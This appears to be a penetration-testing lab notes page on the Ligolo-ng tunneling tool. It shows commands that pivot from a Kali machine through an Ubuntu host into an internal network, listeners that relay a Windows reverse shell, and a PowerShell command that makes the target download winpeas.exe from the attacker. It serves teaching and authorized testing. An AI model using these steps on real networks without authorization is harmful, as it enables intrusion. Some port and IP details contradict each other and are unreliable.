 # Ligolo-ng

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

## Setting Up

{% embed url="https://github.com/nicocha30/ligolo-ng/releases" %}

For the setup, we need only two files. Agent and Proxy

Agent: File to be installed on pivot machine\
Proxy: File to be installed on attacker machine



## Attack Scenario 1

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

For this first attack scenario, we have our attacker machine (kali) and pivot machine (ubuntu).\
Pivot machine has an additional network interface (172.16.1.15).\
We cannot ping/access this {172.16.1.15} network from our attacker machine (kali).

Lets get access to this network

In our attacker machine\
`sudo ip tuntap add user [your_username] mode tun ligolo` \
this will add new tun interface `ligolo`\
`sudo ip link set ligolo up` \
this will enable the newly created interface `ligolo`

Now we need two file\
`ligolo-ng_agent_version-linux_version.tar.gz` for pivot machine\
`ligolo-ng_proxy_version-linux_version.tar.gz`for attacker machine

get latest version form official github repo.

Then transfer the agent file to the pivot machine (ubuntu)

### In attacker machine

`./proxy -selfcert`

### In pivot machine

`./agent -connect kali_linux_ip:11601 -ignore-cert`\
port `11601` is by default set on proxy in the attacker machine\
we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert`



### In attacker machine

`session` to list the session and select the session we want to connect\
`ifconfig or ipconfig` to view the interface of the pivot machine.

Now in new terminal \
sudo ip route add `172.16.1.0/24 dev ligolo`\
here we are adding route for 172.16.1.0/24 network

once the route is set.

Go back to the terminal where agent is agent is running\
`start` -> this wll start tunnel to the pivot machine.



Now we have connection to the `172.16.1.0/24`network\
Meaning we can view the webserver running  on port 80 of windows `172.16.1.16`

## Getting Reverse Shell

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Lets say we now have access to the windows machine on `172.16.1.0/24` which was previously not routable from our attacker host. Now we want reverse shell connection from that machine (windows).

That windows machine cannot reach us, it does not have route to our ip, it can only reach the pivot machine.

To solve this

We can listen to ports on Agent (pivot machine) and redirect the connection back to us (attacker machine)

we can set this up using

*   In attacker proxy terminal \
    `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`

    on the pivot machine, any device or interface on port `3000` will redirect our port `10000`

Which means we can create a payload with \
lhost: 172.16.1.15\
lport: 10000

when the pivot machine gets data on port 30000\
it will redirecto it to port 10000 on our attacker machine(kali)\


Meaning we can listen on 10000 to get the reverse shell connection.



## Transferring File Between Machines

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



To transfer files, we can add another listener.

`listener_add --addr 0.0.0.0:11111 --to 127.0.0.1:22222 --tcp`

In our attacker machine run python http server on port 22222

In windows target machine, download the file using

`Invoke-WebRequest -Uri "http://172.16.1.5:11111/winpeas.exe" -OutFile winpeas.exe`

Here, windows will send request to port 11111 on pivot (ubuntu) and ligolo-ng will redirect it to port 22222 on our attacker machine\
\
\
More more insight, what this video by John Hammond

{% embed url="https://youtu.be/qou7shRlX_s" %}
